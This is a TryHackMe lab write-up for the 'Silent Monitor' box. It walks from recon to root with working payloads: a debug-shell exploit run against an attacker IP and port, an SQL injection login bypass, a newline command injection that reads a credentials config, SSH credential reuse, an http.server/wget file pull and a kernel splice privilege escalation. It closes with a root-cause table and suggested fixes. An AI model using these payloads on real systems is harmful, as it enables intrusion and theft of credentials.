








# Silent Monitor — TryHackMe Write-up

**Platform:** TryHackMe
**Room:** Silent Monitor
**Target IP:** Available at lab *
**Attacking Machine:** Kali Linux (`ninjax@ninjax`)
**Date:** July 2026

---

## 1. Overview

Silent Monitor is a Linux box themed around a fictional company, **CorpNet**, running a small internal "Network Operations Centre" (NOC) web application on a non-standard port. The path to root touches four classic real-world weaknesses stacked on top of each other:

1. A login form vulnerable to **SQL injection authentication bypass**.
2. An authenticated **OS command injection** in a "health check / ping" feature.
3. **Credential reuse**  a service account password left in a plaintext config file also worked over SSH.
4. A **kernel-level privilege escalation** exploit (Dirty-Pipe-style `copy_file_range`/splice primitive) to go from a low-privileged SSH user to root.

The write-up below follows the exact order I worked through the box, including the dead ends, so the reasoning is visible and not just the "happy path."

---

## 2. Reconnaissance

The first thing I do on literally any box is a full TCP service scan. I want to know what's listening before I decide where to spend my time, so I ran:

```bash
nmap -sC -sV 10.48.148.228
```

- `-sC` runs Nmap's default script set (banner grabs, common enumeration scripts) — cheap to run and often reveals low-hanging fruit like SSH host key info or HTTP titles.
- `-sV` does version detection, which matters a lot later because I'm going to be searching exploit databases by exact version string.

**Result:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet — Network Operations Centre
```


**Reasoning:** Two open ports, so two possible ways in.

- Port 22 (SSH) is not directly attackable without credentials, so I park it mentally as a *destination* — if I ever find a username/password anywhere, this is where I'll try to reuse it.
- Port 5050 running **Werkzeug** (the Flask dev server) is unusual — Werkzeug's dev server is not meant to be exposed in production, and historically it has had some serious issues (path traversal, the interactive debugger RCE). Version 2.0.2 also tells me this is a *custom-built* app someone hosted with `flask run`, not something like Apache/Nginx serving static config. That means the vulnerabilities are far more likely to be in the *application logic* rather than off-the-shelf CVEs, but it's cheap to check for known CVEs first.

I opened the site in a browser to confirm what "CorpNet  Network Operations Centre" actually looked like, and to start building a mental model of the app before attacking it blindly.

---

## 3. Checking for Known Werkzeug Exploits

Since the banner told me exactly which server software and version was running, my instinct was to check if there's a known, pre-built exploit before doing anything manual  no point reinventing the wheel.

```bash
searchsploit werkzeug
```

```
Pallets Werkzeug 0.15.4 - Path Traversal        | python/webapps/50101.py
Werkzeug - 'Debug Shell' Command Execution      | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (msf)  | python/remote/37814.rb
```

Two of these are for the **interactive debugger** ("Debug Shell"), which Werkzeug exposes when `app.run(debug=True)` is set. If debug mode is on, Werkzeug will render an interactive Python console directly in the browser on unhandled exceptions  trivial RCE. Worth ruling out immediately since it's a five-second check.

```bash
searchsploit -m multiple/remote/43905.py
searchsploit -m python/remote/37814.rb
```

`-m` copies ("mirrors") the exploit script into my working directory so I can run/modify it locally rather than reading it out of the read only exploitdb path.

```bash
python 43905.py 10.49.176.78 5050 192.168.138.232 5555
[-] Debug is not enabled
```

**Result:** Debug mode is off. This rules out the interactive debugger RCE path entirely  the developer (or whoever built this lab) at least remembered to disable Flask's debug mode in what looks like production. That's a dead end, but an important one to rule out early rather than assume.




---

## 4. Directory Enumeration

With the known CVE route closed off, the only way forward is to find hidden functionality on the web app itself. I didn't see any obvious login link or navigation on the front page, so I brute forced the directory structure:

```bash
gobuster dir -u http://10.49.176.78:5050 -w /usr/share/wordlists/dirb/common.txt -x php,txt,zip,bak,py
```

- `-w /usr/share/wordlists/dirb/common.txt`  a small, fast, high signal wordlist; good first pass before reaching for something bigger like `raft-large`.
- `-x php,txt,zip,bak,py`  since I already know this is a Python/Flask app, I added `.py` and common backup extensions (`.bak`, `.zip`) in case there were leftover source files or backups sitting in the webroot.

**Result:**

```
internal             (Status: 200) [Size: 8770]
```

A hidden `/internal` path. I browsed to `http://<ip>:5050/internal` and found a **login page**  the actual attack surface I'd been looking for. I spent a few minutes just clicking around with the browser dev tools open (Network tab) watching requests/responses to understand what the app was doing client side, but didn't see anything obviously wrong (no leaked API keys, no interesting JS logic)  so I moved to testing the login form directly.



---

## 5. Authentication Bypass via SQL Injection

Since this looked like a small internal tool (not something with a hardened auth stack), and the app is clearly hand rolled (Werkzeug dev server, unusual port), I tried the single most common authentication bypass payload as a first move:

```
Username: ' OR '1'='1' --
Password: (anything)
```

**Why this works:** if the backend builds its SQL query by string concatenation instead of using parameterized queries  something like:

```sql
SELECT * FROM users WHERE username = '<input>' AND password = '<input>'
```

— then injecting `' OR '1'='1' --` turns the query into "match any row where 1=1" and comments out the rest of the query (including the password check) with `--`. This is the textbook first thing to try on any login form before moving to more surgical, blind, or time-based injection.

**Result:** It worked immediately — authentication bypassed, logged in as an "operator"-level account (confirmed later from the session cookie, see below).





---

## 6. Command Injection via the Health-Check Feature

Once inside `/internal`, there was a **"Health Check"** feature that takes an IP address and (presumably) pings it to check connectivity  a very common feature in NOC/monitoring dashboards, and also a *very* common source of command injection, because developers often do something like:

```python
os.system(f"ping -c 2 {user_input}")
```

That pattern is dangerous because if `user_input` isn't sanitized, anything after a shell metacharacter (`;`, `|`, `&&`, or a newline `%0a`) gets executed as a second command.

I captured the request in Burp Suite to manipulate it directly rather than through the browser form, since Burp lets me iterate on payloads much faster (repeat, tweak, resend):

```
POST /internal/health HTTP/1.1
Host: 10.49.178.125:5050
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJyb2xlIjoib3BlcmF0b3IiLCJ1c2VyIjoibmV0b3BzIn0.ak-Blg.mbfYHpgzDqs2qFwYFZW0jEcskrU
Content-Length: 36

target=127.0.0.1%0acat secret.config
```

**Reasoning behind the payload:**
- `target=127.0.0.1` — a valid-looking IP, so the app's own logic (if it validates "is this an IP") is satisfied.
- `%0a` — URL-encoded newline. In a shell context, a newline works like a command separator, so this asks the shell to run `ping -c 2 127.0.0.1` and then, on a fresh line, `cat secret.config`.
- I decoded the base64 session cookie out of curiosity/verification and saw `{"role":"operator","user":"netops"}` confirming the SQLi login gave me an "operator" role, which apparently has enough privilege to reach this endpoint.

**My actual testing order** (important for methodology): I didn't jump straight to `cat`. I first tried `ls` to confirm (a) the injection actually worked, and (b) that a file called `secret.config` existed in the working directory, before spending a request on trying to read a file that might not even be there. Only after confirming its existence did I use `cat` to dump the contents. This is a good habit cheap non-destructive commands first (`id`, `whoami`, `ls`) before pulling data or doing anything more invasive.

**Result — secret.config contents:**

```ini
# netops application config
# generated: 2026-01-03

[database]
path    = /opt/netops/netops.db
timeout = 5

[app]
host     = 0.0.0.0
port     = 5050
log_path = /var/log/netops/app.log

[auth]
session_lifetime = 1800

# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as   = sysadmin
password = S3cur**************

[smtp]
host = 127.0.0.1
port = 25
from = noc-alerts@corp.internal
```



That `TODO: migrate to secrets manager before Q2 audit` comment is basically the whole box's story in one line  a known piece of technical debt (plaintext service-account credentials in a config file) that never got fixed.

---

## 7. Lateral Movement — Credential Reuse over SSH

I now had:
- A username: `sysadmin` (the `run_as` value for the backup agent)
- A password: `S***************`
- An open SSH port

The obvious next move, since we already know SSH is open from the Nmap scan, is to just try that same password there  organizations (and lab boxes modeling them) very frequently reuse a single service account password across multiple systems, so this is always worth trying before looking for anything more complex.

```bash
ssh sysadmin@10.49.178.125
```

It accepted the password and dropped me into an interactive shell as `sysadmin`. This confirms the credential-reuse hypothesis and gets me off the constrained web app entirely and onto a full Linux shell.



**Flag #1 (user.txt)** was sitting in the home directory — the first objective of the box, achieved through: SQLi → command injection → config leak → credential reuse.


---

## 8. Post-Exploitation Enumeration

With a real shell, I did what I always do next: look around the home directory and any obviously named folders before going hunting more broadly with something like `linpeas`.

```bash
cd backups/
ls
# README.txt  infrastructure.kdbx
cat README.txt
```

```
Backup archive — infrastructure credentials
Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.
infrastructure.kdbx — KeePass credential database
Contact the sysadmin team lead if you require access.
```

A **KeePass database file** (`.kdbx`) — an encrypted credential vault. This is clearly meant to be the next breadcrumb: it likely contains the root password or another privileged credential, but it's encrypted, so I can't read it in place. KeePass databases are also generally impractical to crack directly on a target box (no GUI, and brute-forcing is CPU-intensive) — so the right move is to pull it back to my own machine where I have `keepassxc` and can work on it properly.

### Transferring the file off the target

Since I already had a foothold, the simplest way to move the file was to stand up a throwaway HTTP server on the target and pull from it with `wget` on my attacking box:

```bash
# on the target
python3 -m http.server 8000 --directory /home/sysadmin/backups
```

```bash
# on my attack box
wget http://10.49.178.125:8000/infrastructure.kdbx
```

**Why this approach:** no need to set up SCP/rsync auth, no need to base64-encode-and-paste through a shell  `python3 -m http.server` is available basically everywhere Python is installed, and `wget`/`curl` on the receiving end make this a two-command file transfer.

### Opening the vault

```bash
keepassxc ~/silent/infrastructure.kdbx
```

I didn't have a master password yet, but KeePass databases are also frequently protected with weak or reused passwords, or the master password itself is guessable/crackable from context gathered earlier in the box (in the actual attempt, I tried passwords already seen during the engagement before resorting to brute-force cracking with `keepass2john` + `hashcat`/`john`). Once inside, the vault contained credentials for the target  but importantly, they were **not** valid for logging in over SSH as a different/higher privileged user, which told me privilege escalation was going to come from somewhere else — not from a "found a better password" shortcut.



---

## 9. Privilege Escalation — Kernel Exploit (copy_file_range / splice primitive)

Since the KeePass creds didn't get me SSH access as a more privileged user, I went back to basics: check the kernel and OS version for known local privilege escalation vulnerabilities.

```bash
uname -a
cat /etc/os-release
```

The system was Ubuntu 22.04 on kernel `6.8.0-1017-aws`. Kernels in this range have had a well-known class of vulnerabilities involving the `splice()`/`copy_file_range()` syscalls and page cache handling (the same family of bug as the widely publicized "Dirty Pipe" CVE-2022-0847, and its later variants)  these allow an unprivileged local user to overwrite the contents of files they don't otherwise have write permission to, by abusing how data gets spliced into the kernel's pipe buffers and page cache.

**High-level mechanism (why this class of bug works, without walking through weaponization):**
1. The kernel's pipe buffers can, under specific conditions, end up flagged in a way that lets *arbitrary data* get written into a read-only page-cache page that's backing a file the attacker doesn't have write permission to.
2. By targeting a **setuid root binary** (classically `/etc/passwd`, or in exploit variants, a setuid binary like `su`), an attacker can splice in modified bytes  for example, patching a setuid binary so it drops into a root shell unconditionally, or blanking a root password field.
3. Because the write happens through the *page cache abstraction* rather than a normal file-write syscall, the kernel's usual permission checks on the file itself are bypassed.

The exploit script for this box (already present in the "silent" working directory from my session) followed this exact pattern: open a target setuid binary (`/usr/bin/su`), splice attacker-controlled bytes into it via a crafted pipe/socket setup, and then invoke that patched binary to obtain a root shell.

```bash
python3 copy_fail_exp.py
```

Running it dropped me into a root shell (`su` prompt returning uid 0 instead of the normal login flow), from which I could read the final flag.

**Flag #2 (root.txt)** was retrieved from `/root/`.


---

## 10. Root Cause Summary

| # | Weakness | Where | Real-world equivalent |
|---|----------|-------|------------------------|
| 1 | Exposed dev server (Werkzeug/Flask `flask run`) on a non-standard port | Port 5050 | Dev servers accidentally left reachable in production |
| 2 | SQL injection — string-concatenated login query | `/internal` login form | OWASP Top 10 — Injection |
| 3 | OS command injection — unsanitized input passed to a shell `ping` call | `/internal/health` | OWASP Top 10 — Injection |
| 4 | Plaintext credentials committed to an app config file | `secret.config` | Hardcoded/plaintext secrets, "TODO: migrate to secrets manager" never done |
| 5 | Password reuse between a service account and a real login shell | `sysadmin` over SSH | Credential reuse across systems |
| 6 | Sensitive credential vault left readable by a low-privileged user | `infrastructure.kdbx` | Improper access control on backup artifacts |
| 7 | Unpatched kernel vulnerable to page-cache/splice privilege escalation | Kernel 6.8.0-1017-aws | Delayed kernel patching |

### Suggested fixes (for a real environment)
- Use parameterized queries / an ORM — never string-concatenate user input into SQL.
- Never pass user input into `os.system()`/`subprocess` with `shell=True`; use `subprocess.run([...], shell=False)` with an argument list, and validate that "target" is actually a well-formed IP before use.
- Never store plaintext service-account passwords in config files — use a proper secrets manager, and rotate immediately if one is found exposed.
- Enforce unique credentials per system/service — no password reuse between a web app's backend service account and real login accounts.
- Restrict file permissions on backup/credential artifacts to the owning service account only.
- Keep kernels patched, and track CVEs for the specific kernel version in use.

---

## 11. Timeline / Methodology Recap

1. `nmap -sC -sV` → found SSH (22) and Werkzeug/Flask (5050).
2. Checked `searchsploit` for known Werkzeug exploits → debug-mode RCE not available.
3. `gobuster` directory brute-force → discovered `/internal`.
4. SQL injection (`' OR '1'='1' --`) → bypassed login as an "operator" role.
5. Command injection in the health-check "ping" feature → read `secret.config` → found `sysadmin` / plaintext password.
6. Reused that password over SSH → shell access → **user.txt**.
7. Found `infrastructure.kdbx` in a backups folder → transferred to attack box via `python3 -m http.server` + `wget` → opened with `keepassxc`.
8. Vault creds didn't grant further access → pivoted to kernel version check → identified a splice/page-cache privilege escalation vulnerability affecting the running kernel.
9. Ran the corresponding local exploit → root shell → **root.txt**.

---

*End of write-up.*
